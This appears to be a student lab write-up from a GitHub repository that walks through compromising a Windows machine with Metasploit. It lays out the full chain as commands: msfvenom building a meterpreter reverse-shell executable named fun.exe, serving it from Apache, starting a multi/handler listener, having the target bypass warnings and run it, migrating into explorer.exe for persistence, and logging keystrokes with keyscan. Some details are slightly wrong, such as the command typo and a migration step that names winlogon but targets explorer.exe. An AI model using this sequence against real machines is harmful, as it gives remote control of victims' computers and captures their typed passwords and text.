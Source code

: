 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-20 222050](https://github.com/user-attachments/assets/dc5487b6-87bb-4ace-aeba-d54ab96bd144)






Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-20 222141](https://github.com/user-attachments/assets/a9615d8a-23f9-4103-8af5-6803a7f4ec51)








copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/ff975434-41a9-4fe6-ae0c-2f71156fbeb8)





Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-20 222717](https://github.com/user-attachments/assets/b99d3a92-19f4-4b40-9cd1-c0344effb158)








Check the status of apache2

![Screenshot 2025-04-20 222806](https://github.com/user-attachments/assets/87a62d57-8b80-4337-85d8-76eab8de74cc)






Invoke msfconsole:
## OUTPUT:






Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 114636](https://github.com/user-attachments/assets/b03d96a2-1d8d-4dec-8a0f-22c7cec2b903)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 141549](https://github.com/user-attachments/assets/1280db57-07f0-4f80-8c79-d2915f41f8f3)




Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 






Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-11 142118](https://github.com/user-attachments/assets/5e89add7-61d5-489a-9cca-d223c37acec4)





keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115015](https://github.com/user-attachments/assets/2cd42810-8016-4632-97ca-6ab56f11c012)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
